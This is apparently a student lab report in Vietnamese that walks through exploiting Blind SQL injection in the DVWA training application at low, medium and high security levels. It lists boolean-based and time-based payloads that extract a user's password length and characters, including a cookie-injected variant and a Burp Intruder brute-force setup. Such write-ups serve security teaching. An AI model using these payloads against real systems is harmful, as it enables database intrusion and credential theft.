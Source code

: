 # BÁO CÁO QUÁ TRÌNH KHAI THÁC BLIND SQL INJECTION (LOW, MEDIUM, HIGH)

---

## 1. BLIND SQL INJECTION (LOW)

Đầu tiên, giao diện xuất hiện một text field cho phép người dùng nhập ID của người dùng:

![alt text](image-6.png)

Nhận thấy khi nhập user ID, server sẽ trả về hai trạng thái là *exists* và *MISSING*:

![alt text](image-7.png)
![alt text](image-8.png)

&rarr; **Do đó mà ta có thể thử khai thác lỗ hổng Blind SQLi dạng boolean.**

Thực hiện test các payload như bên dưới để kiểm tra SQL injection:

```SQL
 1’ -- -
 1’ and 1=1 -- -
 1’ and 1=0 -- -
```

![alt text](image-9.png)
![alt text](image-10.png)


Dựa vào lab SQLi, ta biết CSDL có table là users có cột như password và user_id, dựa vào đây ta có thể thực hiện dò đoán thử password của user.

Ta thực hiện tạo các payload dò độ dài của password của user có ID là 1 như sau: 

```SQL
1’ and (SELECT length(password) FROM users WHERE user_id=1) > 1/2/3/4/5…
```

Thực hiện lặp lại cho đến khi độ dài được xác định khi một số trả về *MISSING*, nhưng số liền trước của nó lại trả về *exists*.

Nhận thấy với payload:

```SQL
1’ and (SELECT length(password) FROM users WHERE user_id=1) > 31 -- -
```

Server vẫn trả về exists, nhưng với > 32 thì lại trả về *MISSING*
&rarr; **Do đó có thể kết luận dộ dài của password của user id 1 là 32.**

![alt text](image-11.png)
![alt text](image-12.png)

Thực hiện tạo các payload dò các ký tự trong password của user có ID là 1 như sau: 

```SQL
1’ and (SELECT substring(password,0,1) FROM users WHERE user_id=1)=’a’/’b’/’c’/…
```

Tương tự thực hiện lặp lại nếu đúng ký tự sẽ trả về *exists* còn không là *MISSING*.

Trong đó hàm *substring(password,0,1)* sẽ thực hiện lấy 1 ký tự vị trí 0 của password.

Để thực hiện dò password, ta sử dụng công cụ Intruder ở chế độ Cluster Bomb với hai vị trí cần dò là vị trí cần substring: *substring(password,**0**,1)* và ký tự cần dò.

![alt text](image-13.png)

Trong đó setting vị trí payload 1 như dưới:

![alt text](image-14.png)

Trong đó setting vị trí payload 2 như dưới:

![alt text](image-15.png)

Tạo grep-match như dưới:

![alt text](image-16.png)

Kết quả sau khi thực hiện brute force dò password:

![alt text](image-17.png)

***Note:*** *Em dùng burpsuite bản thường dò lâu quá nên em pass qua phần này ạ.*

---

## 2. BLIND SQL INJECTION (MEDIUM)

Giao diện xuất hiện một select option cho phép người dùng chọn ID của người dùng và gửi:

![alt text](image-18.png)

Dữ liệu id được đưa vào câu truy vấn không đặt trong dấu ‘...’

![alt text](image-19.png)

Sử dụng một cách khai thác lỗ hổng Blind SQLi khác đó dạng dựa trên *time-based*, sử dụng thời gian làm đối trọng.

Khi thực hiện gửi đi payload như sau:  

```SQL
1 or sleep(1) 
```

Ta sẽ thấy server gửi lại phản hồi chậm mất 1s so với thông thường:

![alt text](image-20.png)

Tạo payload kết hợp với các truy vấn điều kiện *if*:

```SQL
1 or if (1<2, sleep(1), 0) 
1 or if (1>2, sleep(1), 0)
```

Nếu câu điều kiện thỏa mãn sẽ thực hiện sleep(1), dó đó mà server sẽ phản hồi chậm còn nếu câu điều kiện sai sẽ trả về giá trị 0 và lúc này server sẽ phản hổi ngay:

![alt text](image-21.png)

&rarr; Nhận thấy server phản hồi trong 5s.

![alt text](image-22.png)

&rarr; Server phản hồi ngay trong 1s.

Tiếp tục tạo payload sau để dò đoán độ dài của password:


```SQL
1 or IF ((select length(password) from users where user_id=1) > 1/2/3/4/….., SLEEP(1), 0) 
```

![alt text](image-23.png)
![alt text](image-24.png)

&rarr; Kết quả là 32 ký tự.

---

## 3. BLIND SQL INJECTION (HIGH)

Giao diện xuất hiện một link *Click here…*, khi người dùng thực hiện click đường link sẽ xuất hiện một form giao diện cho phép người dùng nhập id và gửi đi:

![alt text](image-25.png)

Kiểm tra source PHP:

![alt text](image-26.png)

&rarr; Ta có thể nhận thấy, giá trị id lúc này được lấy từ cookie của trình duyệt, rồi sử dụng giá trị đó để chèn vào câu lệnh SQL.

Ta có thể thấy điều đó rõ hơn trong hai mẫu request được gửi đi:

![alt text](image-27.png)
![alt text](image-28.png)

Lúc này câu hỏi đặt ra là liệu có thể sửa phần *Cookie: id=...* của request GET để chèn thành payload blind SQLi hay không?

Để kiểm tra, ta tiếp tục thực hiện chèn payload như sau trong id:

```SQL
1’ or if (1<2, sleep(5), 0) -- -
1’ or if (1>2, sleep(5), 0) -- -
```

Nếu tồn tại lỗ hổng SQLi cả hai payload đều sẽ được thực hiện truy vấn, câu 1 sẽ khiến server phản hồi chậm hơn nhiều do hàm sleep(5) được thực thi trong câu điều kiện, ngược lại câu hai sẽ được phản hồi như bình thường.

![alt text](image-29.png)
![alt text](image-30.png)

&rarr; Kết quả cho thấy hệ thống tồn tại SQLi.

Tương tự ta có thể dụng payload để dò đoán độ dài của password: 

```SQL
1’ or IF ((select length(password) from users where user_id=1) > 1/2/3/4/…, SLEEP(1), 0) -- -
```

![alt text](image-31.png)
![alt text](image-32.png)

&rarr; Kết quả tương tụ có 32 ký tư.

Tiếp tục ta có thể tạo payload để thực hiện dò các ký tự trong password của user có id là 1:

```SQL
1' or if ((select substring(password,1,1) from users where user_id=1)=’a’/'b'/’c’/…, sleep(5), 0) -- -
```

Trong công cụ Intruder ta cấu hình như sau:

```SQL
1' or if ((select substring(password,§1§,1) from users where user_id=1)='§a§', sleep(5), 0) -- -
```

![alt text](image-33.png)
![alt text](image-34.png)
![alt text](image-35.png)

Kết quả sau khi thực hiện tấn công, ta có thể thấy những request có phản hồi chậm hơn so với các request khác đúng ký tự tương ứng với vị trí trong password của người dùng id 1:

![alt text](image-36.png)

---

## ✅ Kết luận:

Thành công khai thác lỗ hổng Blind SQLi trên lab DVWA.

---


